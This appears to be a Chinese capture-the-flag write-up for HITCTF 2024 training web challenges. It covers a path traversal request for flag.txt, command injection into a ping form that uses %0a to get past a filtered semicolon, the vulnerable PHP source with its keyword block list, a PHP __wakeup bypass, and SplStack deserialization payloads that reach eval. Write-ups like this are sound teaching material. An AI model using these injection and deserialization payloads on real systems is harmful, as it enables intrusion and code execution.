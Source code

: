 
## 音乐会 Problem ID: 2

![alt text](assets/train2024/image.png)

`GET http://train2024.hitctf.cn:26130/get_resource.php?path=../../../flag.txt`

![alt text](assets/train2024/image-1.png)


## ex-pingping Problem ID: 4

综合过滤练习
组合拳

过滤了 ; 符号，翻看URL编码，%0a可以实现换行，用%0a代替 ; 符号。

http://train2024.hitctf.cn:26846/?ip=%0a env > 1.txt

http://train2024.hitctf.cn:26846/?ip=%0a more index.php 

```php
::::::::::::::
index.php
::::::::::::::
<?php

$res = FALSE;
$no = FALSE;
$waf = FALSE;

if (isset($_GET['ip'])) {
    if (preg_match('/[|&;*]/',$_GET['ip'])) {
        $waf = TRUE;
    }
    else if (preg_match('/base|cat|tac|head|tail|flag/i',$_GET['ip'])) {
        $no = TRUE;
    }
    else {
        $cmd = "ping -c 4 {$_GET['ip']}";
        exec($cmd, $res);
    }
}

?>

<!DOCTYPE html>
<html>
<head>
<script src="https://cdn.jsdelivr.net/npm/jquery@3.7.1/dist/jquery.min.js"></script>
<link rel="stylesheet" type="text/css" href="https://cdn.jsdelivr.net/npm/fomantic-ui@2.9.3/dist/semantic.min.css">
<script src="https://cdn.jsdelivr.net/npm/fomantic-ui@2.9.3/dist/semantic.min.js"></script>
<title>pingping</title>
<style>
    body > .grid {
      height: 100%;
      margin-top: 100px;
    }
    .column {
      max-width: 450px;
    }
    .img1 {
        height: 250px;
        width: 275px;
    }
</style>
</head>
<body>

<div class="ui middle aligned center aligned grid">
<div class="column">

<h2 class="ui teal image header">
    <div class="content">
        Ping一下吧？
    </div>
</h2>

<form action="#" method="GET" class="ui large form initial">
    <div class="ui stacked segment">
    <div class="field">
        <input type="text" id="ip" name="ip" placeholder="IP">
    </div>
    <input type="submit" value="Ping" class="ui primary button">
</div>
</form>

<pre>
<?php
if ($waf) {
    echo "No you bad hacker...<br>";
}
else if ($no) {
    echo "想要flag?<br>";
    echo "<img class='img1' src=/img/agms.jpg>";
}
else if ($res) {
    foreach ($res as $line) {
        if (preg_match('/[{}]/',$line)) die("等等，这输出有问题，你不许读！<br><img src=/img/ask.jpg>");
        echo $line.'<br>';
    }
}
?>
</pre>
</div>
</div>
</body>
</html>
```



绕过应用举例

**当反序列化字符串中，表示属性个数的值⼤于真实属性个数时，会绕过 __wakeup 函数的执⾏。**

漏洞影响范围
PHP5 < 5.6.25
PHP7 < 7.0.10

标准序列化结果

`O:4:"User":2:{s:8:"username";s:4:"Lxxx";s:8:"password";s:4:"lxxx";}`

将2改为3 绕过__Wakeup魔法函数

`O:4:"User":3:{s:8:"username";s:4:"Lxxx";s:8:"password";s:4:"lxxx";}`

————————————————

                            版权声明：本文为博主原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接和本声明。
                        
原文链接：https://blog.csdn.net/eason612/article/details/130607125



## 反序列化

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class evil{
    public $cmd;
    public $a;
    public function __destruct(){
        eval($this->cmd.'114514');
    }
}

if(!preg_match('/^[Oa]:[\d]+|Array|Iterator|Object|List/i',$_GET['Pochy'])){
    unserialize($_GET['Pochy']);
} else {
    die("hacker!");
}
```

`O:4:"evil":1:{s:3:"cmd";s:9:"echo 1;//";}`

`C:8:"SplStack":44:{O:4:"evil":1:{s:3:"cmd";s:12:"phpinfo();//";}`

>很经典不能O,a开头，那我们就C开头，不能有ArrayObject，啧，之前ctfshow学到的没用了，最终发现SplStack这个类也能用，然后就是绕__destruct，也就是只能使用[A-Za-z_\(\)]，最后带个; 怎么把givemegirlfriend! 除掉是个问题，__halt_compiler(); 可以中断编译器的执行，不让eval解析后面的就行了，这里没法用引号，所以得构造无参rce，exp如下：

https://www.cnblogs.com/F12-blog/p/17472787.html
